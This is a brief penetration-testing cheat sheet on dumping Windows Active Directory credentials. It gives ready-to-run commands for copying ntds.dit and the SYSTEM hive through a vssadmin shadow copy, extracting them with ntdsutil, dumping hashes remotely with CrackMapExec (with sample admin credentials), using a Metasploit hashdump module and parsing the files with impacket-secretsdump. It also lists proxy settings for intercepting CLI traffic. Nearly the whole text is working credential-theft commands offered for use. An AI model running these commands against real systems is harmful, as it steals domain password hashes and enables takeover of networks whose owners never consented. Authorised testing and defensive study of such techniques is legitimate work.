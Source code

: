 ```yaml
---
description: other miscellaneous
---
```


# Others

## Dump NTDS

### NTDS file location 

`c:\windows\ntds\ntds.dit` 

Backup files if contain sam 

`Windows/system32/config/SAM` 

`/WINDOWS/repair/SAM` 

`regedit.exe HKEY_LOCAL_MACHINE -> SAM` 

### Manual NTDS.dit Extraction using vssadmin 

```text
vssadmin create shadow /for=C: 
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\ntds.dit 
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\SYSTEM c:\SYSTEM 
```

### Dump NTDS.dit with Crackmapexec 

`crackmapexec smb <target>-u admin -p Password123 -d domain --ntds drsuapi` 

### ntdsutil 

```text
activate instance ntds 
ifm 
create full C:\ntdsutil 
quit 
quit 
```

Get files from:  

c:\ntdsutil\active directory 

### Metasploit 

`windows/gather/credentials/domain_hashdump` 

### Impacket 

`impacket-secretsdump -system /root/SYSTEM -ntds /root/ntds.dit LOCAL` 

## Intercept Linux CLI Traffic

[https://frichetten.com/blog/intercept-linux-cli-tool-traffic/](https://frichetten.com/blog/intercept-linux-cli-tool-traffic/)

```text
export http_proxy="http://192.168.122.1:8080" 
export https_proxy="http://192.168.122.1:8080" 
```

